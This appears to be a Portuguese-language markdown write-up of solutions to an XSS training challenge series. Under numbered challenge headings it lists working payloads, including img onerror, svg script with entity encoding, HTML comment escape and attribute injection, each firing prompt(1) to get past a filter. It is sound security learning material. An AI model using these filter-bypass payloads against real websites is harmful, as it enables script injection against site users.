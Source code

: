 - Esse trecho não aparece como texto na página, ele é interpretado como um **bloco de código JavaScript real** que roda no navegador de quem abre a página.
    

[Ir para o desafio 0](#-desafio-0--básico)

### 🔹 1º desafio

<center><img src='XSS/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_1✅.png'></center>

```
<img src="x" onerror="prompt(1)"
```

[Ir para o desafio 1](#-desafio-1--regex-simples)

### 🔹 2º desafio

<center><img src='XSS/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_2✅.png'></center>

```
<svg><script>prompt&#40;1)</script></b>
```

[Ir para o desafio 2](#-desafio-2--bloqueio-de--e-)

### 🔹 3º desafio

<center><img src='XSS/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_3✅.png'></center>

```
--!> <script>prompt(1)</script>
```

[Ir para o desafio 3](#-desafio-3--comentários-html)

### 🔹 4º desafio

**Resolução pendente.**

[Ir para o desafio 4](#-desafio-4--scripts-externos-whitelist-de-domínio)

### 🔹 5º desafio

<center><img src='XSS/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_5✅.png'></center>

```
"type=image src onerror
="prompt(1)
```

[Ir para o desafio 5](#-desafio-5--regex-contra--e-eventos)

### 🔹 6º desafio

<center><img src='XSS/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_6✅.png'></center>
